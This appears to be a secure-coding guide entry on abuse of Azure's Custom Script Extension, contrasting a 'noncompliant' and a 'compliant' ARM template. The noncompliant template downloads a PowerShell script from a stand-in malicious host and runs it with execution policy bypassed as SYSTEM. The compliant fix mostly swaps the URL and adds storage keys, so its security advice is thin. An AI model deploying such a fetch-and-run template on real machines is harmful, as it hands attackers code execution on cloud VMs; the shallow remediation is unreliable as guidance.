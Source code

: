 

## Execute Command on Virtual Machine using Custom Script Extension

Executing a command on a virtual machine using the Custom Script Extension in Azure allows an attacker to pass PowerShell commands to the virtual machine as SYSTEM, enabling them to perform unauthorized actions.

Noncompliant Code:
The following noncompliant code demonstrates the execution of a command on a virtual machine using the Custom Script Extension without following security best practices:

```
{
  "type": "Microsoft.Compute/virtualMachines/extensions",
  "name": "CustomScriptExtension",
  "apiVersion": "2020-12-01",
  "location": "<vm-location>",
  "properties": {
    "publisher": "Microsoft.Compute",
    "type": "CustomScriptExtension",
    "typeHandlerVersion": "1.10",
    "autoUpgradeMinorVersion": true,
    "settings": {
      "fileUris": ["https://malicious-site.com/malicious-script.ps1"],
      "commandToExecute": "powershell.exe -ExecutionPolicy Bypass -File malicious-script.ps1"
    }
  }
}
```

The noncompliant code directly references a malicious script hosted on a remote site and executes it on the virtual machine without considering security best practices.

Compliant Code:
The following compliant code demonstrates the execution of a command on a virtual machine using the Custom Script Extension while following security best practices:

```
{
  "type": "Microsoft.Compute/virtualMachines/extensions",
  "name": "CustomScriptExtension",
  "apiVersion": "2020-12-01",
  "location": "<vm-location>",
  "properties": {
    "publisher": "Microsoft.Compute",
    "type": "CustomScriptExtension",
    "typeHandlerVersion": "1.10",
    "autoUpgradeMinorVersion": true,
    "settings": {
      "fileUris": ["https://secure-site.com/secure-script.ps1"],
      "commandToExecute": "powershell.exe -ExecutionPolicy RemoteSigned -File secure-script.ps1"
    },
    "protectedSettings": {
      "storageAccountName": "<storage-account-name>",
      "storageAccountKey": "<storage-account-key>"
    }
  }
}
```
